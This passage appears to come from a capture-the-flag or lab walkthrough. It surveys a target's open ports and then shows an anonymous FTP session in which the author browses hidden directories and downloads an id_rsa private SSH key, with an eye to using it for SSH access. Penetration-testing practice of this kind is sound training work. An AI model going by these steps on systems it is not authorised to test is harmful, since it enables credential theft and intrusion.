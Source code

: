 - Port 21 - FTP: We can see that anonymous login is enabled. We should enumerate this further to see what we can find.
- Port 22 - SSH: This will likely be our way into the system once we find some credentials.
- Port 25, 143 SMTP,IMAP: We can use IMAP and SMTP to enumerate valid users, and if we are able to get credentials we could use IMAP to view emails that could contain sensitive information.
- Port 80 - HTTP: It seems that there is an http server running, we should enumerate it further to see if we can find interesting endpoints.
- Port 139,445 - SMB: It seems that SMB is also running on the server. We should see what we can do without any credentials.
- Port 631 - CUPS: This is used by the CUPS printing system. We can try and enumerate the page later to see if there is anything interesting there.
- Port 6667-7000 - IRC: This is a protocol and communication system that allows users to engage in real time text conversations.

Alright so let’s get started with our first interesting port, FTP

## FTP

```bash
ftp> ls -al
229 Entering Extended Passive Mode (|||47730|)
150 Here comes the directory listing.
drwxr-xr-x   11 ftp      ftp          4096 Jan 11 14:18 .
drwxr-xr-x   11 ftp      ftp          4096 Jan 11 14:18 ..
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .cups
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .ftp
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .imap
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .mysql
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .nfs
drwxr-xr-x    2 ftp      ftp          4096 Jan 04  2019 .ngircd
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .samba
drwxr-xr-x    2 ftp      ftp          4096 Dec 31  2018 .smtp
drwxr-xr-x    2 ftp      ftp          4096 Jan 04  2019 .ssh
<SNIP>
226 Directory send OK.
ftp> cd .ssh
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||44779|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1766 Jan 04  2019 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||45809|)
150 Opening BINARY mode data connection for id_rsa (1766 bytes).
100% |***********************************************************************************************************************************************************************************************|  1766        4.77 MiB/s    00:00 ETA
226 Transfer complete.
1766 bytes received in 00:00 (2.31 MiB/s)
```
